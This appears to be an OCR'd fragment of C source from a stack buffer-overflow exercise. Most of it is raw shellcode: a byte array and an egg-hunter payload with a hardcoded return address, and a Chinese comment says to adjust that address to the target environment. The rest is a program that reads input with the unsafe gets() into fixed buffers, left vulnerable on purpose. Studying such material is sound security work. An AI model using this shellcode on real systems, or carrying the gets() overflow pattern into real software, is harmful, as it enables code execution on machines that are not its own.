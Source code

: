```
        "\xba\x80\x13\x95\x45\xe7\x20\xd2\xba\x76\x0b\xa8\x8d\xec\x13"
        "\xc6\xf1\xe0\x93\x16\xa4\x6a\x93\x7e\x10\xcf\xc0\x9b\x5f\xda"
        "\x75\x30\xca\xe5\x2f\xe4\x5d\x8e\xcd\xd3\xaa\x11\x2e\x36\xa9"
        "\x56\xd0\xc7\xa9\xa7\x13\x1e\x70\xd2\x7a\xa2\xc7\xed\xc9\x87"
        "\x6e\x64\x31\x9b\x71\xad";
    char email[] =
    //Hunter
        "\xeb\x21\x59\xb8"
        "\x5a\x5a\x5a\x5a\x51\x6a\xff\x33"
        "\xdb\x64\x89\x23\x6a\x02\x59\x8b"
        "\xfb\xf3\xaf\x75\x07\xff\xe7\x66"
        "\x81\xcb\xff\x0f\x43\xeb\xed\xe8"
        "\xda\xff\xff\xff\x6a\x0c\x59\x8b"
        "\x04\x0c\xb1\xb8\x83\x04\x08\x06"
        "\x58\x83\xc4\x10\x50\x33\xc0\xc3"
        "\xe0\xfd\x12\x00";     //0x0012fde0是栈溢出后的返回地址，指向Hunter的起始地址，需结合实际环境进行调整
    */
    char message[1024];
    char email[256];
    printf("Please input message:\n");
    gets(message);
    printf("This is your message: %s\n", message);
    printf("Please input email address:\n");
    gets(email);
    printf("This is your email address: %s\n", email);
    email_backup(email);
    return 0;
}
```